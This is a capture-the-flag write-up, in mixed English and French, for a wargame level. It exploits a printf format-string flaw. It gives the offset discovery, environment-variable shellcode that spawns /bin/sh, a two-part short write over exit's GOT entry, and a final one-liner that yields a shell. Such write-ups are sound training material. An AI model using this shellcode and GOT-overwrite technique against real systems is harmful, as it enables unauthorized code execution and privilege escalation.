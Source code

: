 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

AAAAAAAAAAA
=> 0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
Breakpoint 1, 0x0804847a in main ()
(gdb) x/s $eax
0xffffd4b8:	 "AAAAAAAA\n"

=> 0x08048507 <+195>:	call   0x8048340 <printf@plt>
Breakpoint 2, 0x08048507 in main ()
(gdb) x/wx $esp
0xffffd490:	0xffffd4b8
(gdb) x/s 0xffffd4b8
0xffffd4b8:	 "aaaaaaaa\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:

Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  
```
```gdb
(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
```
  
We get exit function address:

```gdb
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
...
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + %4294957070\$x + '%10\$n'")
0x0804847a in main ()
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
Breakpoint 2, 0x08048507 in main ()
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
```  

Nous pouvons voir que les bytes que nous avons rentrer dans le fgets() ne sont pas modifier, mais que nous n'avons pas jump sur notre shellcode
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite. 
  
```gdb
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221
```
```gdb
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%.55306u%10\$hn' + '%.10221u%11\$hn'")  
=> 0x08048507 <+195>:   call   0x8048340 <printf@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:     add    al,0x8
End of assembler dump.

=> 0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     adc    bl,al
   0x080497e2 <+2>:     (bad)  
   0x080497e3 <+3>:     jmp    DWORD PTR [eax]
End of assembler dump.
```
```bash
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
```
